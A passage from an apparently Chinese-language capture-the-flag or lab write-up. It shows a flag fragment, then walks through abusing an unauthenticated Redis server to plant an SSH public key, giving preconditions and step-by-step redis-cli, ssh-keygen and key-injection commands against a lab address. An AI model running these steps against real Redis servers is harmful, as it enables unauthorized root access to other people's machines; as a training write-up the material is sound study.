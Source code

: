 得到 flag 的一部分 ```-Are-YOu-myS0L-MasT3r?-```

#### redis 写 ssh 秘钥

需要满足下面的条件：
1. 配置登录策略不当导致任意机器都可以登录 redis
2. 未设置密码或者设置弱口令
3. 开启了 ssh 服务
4. redis 服务需要 root 权限启动，并且安全模式 (protected-mode) 必须关闭

尝试连接 ```redis```，并使用 ```info``` 查询信息
```shell
proxychains4 redis-cli -h 192.168.179.129 -p 6400 
info
```

生成 ```ssh-rsa``` 密匙
```shell
ssh-keygen -t rsa  
```

这里文件名写了个 ```1``` ，passsphrase 写了个 ```123```
```shell
Generating public/private rsa key pair.
Enter file in which to save the key (/home/zhou/.ssh/id_rsa): 1
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in 1
Your public key has been saved in 1.pub
The key fingerprint is:
SHA256:GUG/obmQ2OILaH+k/Evq49NRgyvmrgS3DjBRpjHx7kI zhou@kali
The key's randomart image is:
+---[RSA 3072]----+
|+.o    .o        |
| B       o       |
|o .   . . o      |
| o   + + = o     |
|+Eo o * S .      |
|+= = = . .       |
|+oB *.. .        |
|o+.Bo+           |
| .***o.          |
+----[SHA256]-----+                         
```

然后导出 key（ ```\n\n``` 是为了防止乱码）
```shell
(echo -e "\n\n"; cat 1.pub; echo -e "\n\n") > key.txt
```

将生成的公钥写入 redis 服务器的内存之中
```shell
cat key.txt | proxychains4 redis-cli -h 192.168.179.129 -p 6400 -x set xxx	
```

出现 ok 表示成功
可以登录上去看一下
```shell
roxychains4 redis-cli -h 192.168.179.129 -p 6400
keys *
get xxx
```
